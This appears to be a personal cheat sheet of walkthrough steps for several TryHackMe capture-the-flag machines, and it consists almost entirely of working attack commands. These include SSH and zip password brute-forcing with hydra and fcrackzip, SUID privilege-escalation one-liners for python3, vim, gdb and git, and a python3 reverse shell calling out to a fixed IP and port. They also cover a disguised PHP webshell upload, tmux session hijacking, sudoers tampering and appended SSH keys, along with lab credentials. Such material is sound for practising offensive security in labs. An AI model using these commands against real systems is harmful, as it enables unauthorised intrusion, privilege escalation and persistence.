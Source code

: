# Panda

ssh shifu@$IP
password: batman

sudo -l



# offline

msfconsole -> eternalblue


# Hackers

use anonymous login on ftp. You will have a note saying that there is users with weak passwords.

only one of them is actually weak so time to hydra'ate.

`hydra ssh://$IP -l rcampbell -P ../../res/rockyou.txt -t 64` and use the creds to ssh.
> -t 64 is allowed here. Ignore -t 4 warning.

Now time to check capabilities. `getcap -r / 2> /dev/null`.

Oh python3 has setuid. Gotcha. Use `python3 -c 'import os,pty; os.setuid(0); pty.spawn("/bin/bash")'`

boom. You are root.



# H1:Hard

on oprt 80 -> admin:niceWorkHackerm4n

then on shell use python3 revshell `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.42.183",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

then change to admin user using `ssh admin@localhost -t "bash --noprofile"`

change PATH with `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:`

then use `sudo chmod +s /bin/bash && /bin/bash -p`

then fdisk -l to list mounts

then mount it with `sudo mount /dev/xvda1 /mnt`

`(phoenix/.ssh/id_rsa.pub)` append to local `authorized_keys` then try to ssh into that account

then just sudo to root.





# Shrek

check the robots.txt file on port 80, it will give endpoint which will give ssh key for shrek user

`ssh -i id_rsa shrek@$IP`

then use SUID for gdb and get root.

change to proper root through changing the sudoers(Don't forget to change file permissions of sudoers)




# Fortune

get the base64 from `nc $IP 3333`

Convert that hash to file from online or anything.

use ` fcrackzip -v -u -D -p ../../res/rockyou.txt application.zip` to get the passcode of zip.

Then use `unzip application.zip` with passcode to get creds.txt

use this creds to `ssh`

then use `xargs` from gtfobins for SUID to get root.

Then use same sudoers technique to gain real root instead effective root.



# Food

there is a direct shell access on port `46969`

use `telnet $IP 46969`

You will be given user:password but they are ciphered with ceaser cipher. After decoding it is `food:givemecookies`

now `vim.basic` is a SUID. Use it to change /etc/sudoers and add food to run everything.

now `sudo su` with password or You can use NOPASSWD: ALL in /etc/sudoers too

DON"T forget to remove sudo privilleges from food once you get the root.



# Hogwarts

FORGET EVRYTHING AND RUN nmap scan and get the ports of the machine.

run `nmap -p- -vvv -sV $IP` or if you are really late then `nmap -p-20000 -vvv -sV $IP`

Better solution is to use browser based machine of thm. It will be life saver.

then login to ftp with anonymous and cd into `cd .../...`

you will have hidden .zip file. use `fcrackzip -v -u -D -p ../../res/rockyou.txt .I_saved_it_harry.zip` to crack password.

you will get ssh credentials for machine in `boot/.pass` it was this one in last attempt `neville:6mvv5yrw5ir55njoo45cf62l7`. Now ssh is on different port so that's why nmap scan is required.

Then it is just SUID.


# Tyler

On pert 80 webpage check /betatest which will show /etc/passwd so we get the username `narrator`.

now use `smbclient \\\\$IP\public` and get the alert.txt which includes the password for the user.

now use `/usr/bin/vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'` as vim is SUID binary.

Now classic change the /etc/sudoers to get the proper root.


# Carnage

On port 82 use burpsuit to upload the shell.gif.php by changing the content type image/gif.

Get the reverse shell, and now go to /tmp/tmux-0

Now we will use already running tmux session and tap into it to become root.

use `tmux -S default attach -t default`

Now for the king.txt, it is attributed to append only mode. use `echo PhoenixCreation >> /root/king.txt`.


# Production

`ftp $IP` use anonymous login and get the id_rsa.

then `chmod 600 id_rsa` and `ssh -i id_rsa ashu@$IP`

then use `sudo /bin/su skidy` to become skidy.

then use `sudo /bin/git -p help config` and then `!/bin/sh` to get the root.

> On port 9001, use `nc $IP 9001` with password `yourmom!` to get ashu's shell.

> On port 9002, use `nc $IP 9002` to get direct root shell but it is restricted.



# TIPS

Find flags easily: `find / -name *flag*.txt -exec cat "{}" \; 2> /dev/null | egrep -i 'THM'` (Also you can use just `*flag*` but it would be bit slower.)
